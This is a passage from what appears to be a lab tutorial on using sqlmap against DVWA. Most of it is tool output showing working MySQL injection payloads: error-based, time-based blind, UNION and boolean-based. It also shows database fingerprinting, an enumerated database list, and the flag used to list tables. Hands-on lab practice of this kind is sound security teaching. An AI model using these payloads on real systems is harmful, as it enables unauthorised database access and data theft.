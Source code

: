 ```txt
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR (SELECT 1636 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(1636=1636,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ytEF&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' AND (SELECT 1382 FROM (SELECT(SLEEP(5)))dEuN)-- TVzy&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' UNION ALL SELECT CONCAT(0x7176707671,0x7853497561634f616d655a55687979796c716d616274684c417058576a5664656a6d45426557686e,0x717a7a6a71),NULL#&Submit=Submit
---
[13:41:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:41:53] [INFO] fetching database names
[13:41:53] [WARNING] reflective value(s) found and filtering out
available databases [2]:
[*] dvwa
[*] information_schema

```
We can select one of the databases that contains the database and list its tables with the following flags `-D dvwa --tables`

```txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:45:26 /2023-12-01/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:45:26] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[13:45:26] [INFO] resuming back-end DBMS 'mysql' 
[13:45:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR NOT 4697=4697#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://172.17.0.2:80/vulnerabilities/sqli/?id=' OR (SELECT 1636 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(1636=1636,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ytEF&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```